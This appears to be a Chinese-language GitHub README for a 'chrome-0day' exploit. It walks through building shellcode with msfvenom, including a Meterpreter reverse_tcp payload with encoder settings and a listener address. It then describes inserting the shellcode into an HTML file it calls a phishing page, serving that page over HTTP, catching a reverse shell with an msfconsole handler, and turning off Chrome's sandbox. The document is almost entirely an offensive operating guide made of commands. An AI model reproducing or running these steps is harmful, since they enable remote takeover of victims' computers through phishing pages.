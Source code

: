 # chrome-0day
### 生成shellcode代码

#### 弹出计算器的shellcode生成命令：

```msfvenom -a x86 -p windows/exec CMD="calc" EXITFUNC=thread -f num```

*（当然也可以换成其他系统命令）*

### 制作html钓鱼文件


将生成的代码放入explo.html中shellcode[]中。

#### 方式一

浏览器关闭沙盒并打开网页

```
chrome.exe --no-sanbox /path/to/exploit.html
```
#### 方式二

在攻击机当前目录下用python或kali自带的apache2开启一个http服务。

python3.x版本：

```python3 -m http.server 80```

python2.x版本：

```python -m SimpleHttpServer 80```

apache2

sudo systemctl start apache2


http://127.0.0.1/path/to/exploit.html

### 利用msf反弹shell

#### msf反弹shell的shenllcode生成命令：

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.43.232 LPORT=5555 -e x86/shikata_ga_nai -b "\x00" -i 15 -f num -o payload.c```

**注意：LHOST要和自己本机ip保持一致，LPORT要和接下来监听的端口也保持一致**

将生成的payload.c文件中全部内容填入exploi.html中shellcode[]里。
#### msfconsole监听

执行命令：

```
msfconsole

msf6>use exploit/multi/handler

msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST 192.168.43.232

msf6 exploit(multi/handler) > set LPORT 5555

msf6 exploit(multi/handler) > run

```

然后记得关闭沙盒后打开使用Chrome浏览器访问exploit.html即可成功反弹shell。


### 关闭沙盒方法：

**命令方式：**

chrome.exe --no-sandbox

**手动方式：**

在快捷方式属性中目标后面添加" --no-sandbox",

![image](https://user-images.githubusercontent.com/41281045/115229381-90421f80-a145-11eb-97ad-04f84bcd1784.png)



















